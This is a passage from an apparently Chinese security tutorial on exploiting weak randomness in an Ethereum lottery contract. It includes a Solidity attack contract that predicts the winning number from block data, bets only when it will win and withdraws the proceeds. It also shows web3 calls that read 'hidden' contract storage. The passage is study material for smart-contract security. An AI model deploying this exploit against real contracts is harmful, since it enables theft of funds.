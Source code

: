```
contract Attack{
    address public owner;
    simplelottery lottery;
    uint constant maxguess=1000000;
    uint numguesses;
    event success(string s, uint balance);
    // constructor() public{
    //     owner = msg.sender;
    // }
    function () payable{}
    function attack(address target, bytes32 curhash, uint arraysize, uint attackerid) public payable{
        lottery = simplelottery(target);
        (,,,numguesses,,,) = lottery.getBettingStatus();
        if(numguesses != arraysize - 1) revert();
        curhash = sha256(block.timestamp, block.coinbase, block.difficulty, curhash);
        uint lotterynumber = (uint(curhash)+block.timestamp)%(maxguess+1);
        uint i = lotterynumber % arraysize;
        if(attackerid != i) revert();
        target.call.value(0.01 ether)();
        success("Attack success!",this.balance);
        msg.sender.transfer(this.balance);
    }
}
```

此时我们需要通过链的特性来获取到其隐藏数据。通过我们分析，我们发现`curhash`我们并不知道，如果不知道此参数那么我们变无法进行预测。

此处教大家一个姿势，我们可以通过web3函数来获取到存在于链上的数据。

```
web3.eth.getStorageAt("0xfa6826D4456b8d21aa62C7989Ea42C3B246f563e", x, function(x, y) {console.warn(y)});
```

此函数调用后，会获得地址上的位于x位置的链上数据。

![img](https://xzfile.aliyuncs.com/media/upload/picture/20190525202456-1afa4a30-7ee8-1.png)

```
web3.eth.getStorageAt(contractAddress, position);
```

例如我们分析测试合约。

![img](https://xzfile.aliyuncs.com/media/upload/picture/20190525202448-16b10c02-7ee8-1.png)

图中的编号为存储地址的位置。测试第一个位置：

![img](https://xzfile.aliyuncs.com/media/upload/picture/20190525202441-126facde-7ee8-1.png)

为3 。即我们的门限为3（前文修改过）

第2个位置：
